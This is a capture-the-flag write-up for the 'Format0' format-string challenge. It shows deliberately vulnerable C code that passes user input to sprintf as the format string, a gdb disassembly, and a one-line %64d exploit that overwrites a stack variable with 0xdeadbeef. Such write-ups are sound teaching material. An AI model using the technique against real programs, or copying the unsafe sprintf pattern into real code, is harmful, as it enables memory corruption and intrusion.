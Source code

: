Format0 is the first of the format binary explotation challenges for us to solve. 

We are given the following source code:

```

include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string){
    volatile int target;
    char buffer[64];
    char flagBuffer[64];
    FILE *fp;

    target = 0;

    sprintf(buffer, string);
    
    if(target == 0xdeadbeef) {
        printf("you have hit the target correctly :)\n");
        fp = fopen("./flag.txt", "r");
        fgets(flagBuffer, 64, (FILE*)fp);
        printf("flag: %s\n", flagBuffer);
    }
}

int main(int argc, char **argv){                                                                                                                                           
    vuln(argv[1]);
}

```

The goal of this binary is to change the target's value to `0xdeadbeef`.

As we have been dealing with a few stack binary explotation challenges, looking at this binary, an obvious way to exploit it would be to use a standard stack buffer overflow. However, we have to do this by exploiting format strings.

Our goal message, "you have hit the target correctly :)", is in the `vuln()` function, so the first thing we want to do is disassemble the `vuln()` function. 

```

(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disas vuln
Dump of assembler code for function vuln:                                                                                                   
   0x080484eb <+0>:     push   ebp                                                                                                          
   0x080484ec <+1>:     mov    ebp,esp                                                                                                      
   0x080484ee <+3>:     sub    esp,0x98                                                                                                     
   0x080484f4 <+9>:     mov    DWORD PTR [ebp-0x10],0x0                                                                                     
   0x080484fb <+16>:    sub    esp,0x8                                                                                                      
   0x080484fe <+19>:    push   DWORD PTR [ebp+0x8]                                                                                          
   0x08048501 <+22>:    lea    eax,**[ebp-0x50]**                                                                                               
   0x08048504 <+25>:    push   eax                                                                                                          
   0x08048505 <+26>:    call   0x80483d0 <sprintf@plt>                                                                                      
   0x0804850a <+31>:    add    esp,0x10                                                                                                     
   0x0804850d <+34>:    mov    eax,DWORD PTR **[ebp-0x10]**                                                                                     
   0x08048510 <+37>:    cmp    eax,0xdeadbeef                                                                                               
   0x08048515 <+42>:    jne    0x804856d <vuln+130>                                                                                         
   0x08048517 <+44>:    sub    esp,0xc                                                                                                      
   0x0804851a <+47>:    push   0x8048630                                                                                                    
   0x0804851f <+52>:    call   0x80483a0 <puts@plt>                                                                                         
   0x08048524 <+57>:    add    esp,0x10                                                                                                     
   0x08048527 <+60>:    sub    esp,0x8                                                                                                      
   0x0804852a <+63>:    push   0x8048655                                                                                                    
   0x0804852f <+68>:    push   0x8048657                                                                                                    
   0x08048534 <+73>:    call   0x80483c0 <fopen@plt>                                                                                        
   0x08048539 <+78>:    add    esp,0x10                                                                                                     
   0x0804853c <+81>:    mov    DWORD PTR [ebp-0xc],eax                                                                                      
   0x0804853f <+84>:    sub    esp,0x4                                                                                                      
   0x08048542 <+87>:    push   DWORD PTR [ebp-0xc]                                                                                          
   0x08048545 <+90>:    push   0x40                                                                                                         
   0x08048547 <+92>:    lea    eax,[ebp-0x90]                                                                                               
   0x0804854d <+98>:    push   eax                                                                                                          
   0x0804854e <+99>:    call   0x8048390 <fgets@plt>                                                                                        
   0x08048553 <+104>:   add    esp,0x10                                                                                                     
   0x08048556 <+107>:   sub    esp,0x8                                                                                                      
   0x08048559 <+110>:   lea    eax,[ebp-0x90]                                                                                               
   0x0804855f <+116>:   push   eax                                                                                                          
   0x08048560 <+117>:   push   0x8048662                                                                                                    
   0x08048565 <+122>:   call   0x8048380 <printf@plt>                                                                                       
   0x0804856a <+127>:   add    esp,0x10                                                                                                     
   0x0804856d <+130>:   nop                                                                                                                 
   0x0804856e <+131>:   leave                                                                                                               
   0x0804856f <+132>:   ret                                                                                                                 
End of assembler dump.

```

Within this disassembly of vuln there are two important memory locations: `ebp-0x50` and `ebp-0x10`, which belong to the `buffer` and `target`, respectively.

The simplest way of exploiting a format string is to write a short format string preceded by a large string that is written into a buffer.

In our case, due to the buffer in the source code being 64, we want a format string that writes 64 characters followed by the value we want the `target` to be `0xdeadbeef`. This would write past `buffer` into `target`, resulting in the `target` being overwritten. 

Looking at the [man printf](https://linux.die.net/man/3/printf) and using the `minimum field width`, the final exploitation should look like :

`$ ./format0 $(python -c "print '%64d\x?\x?\x?\x?'")`

you have hit the target correctly :)

flag: helloworld

where the "?" represents `0xdeadbeef` in Little Endian.
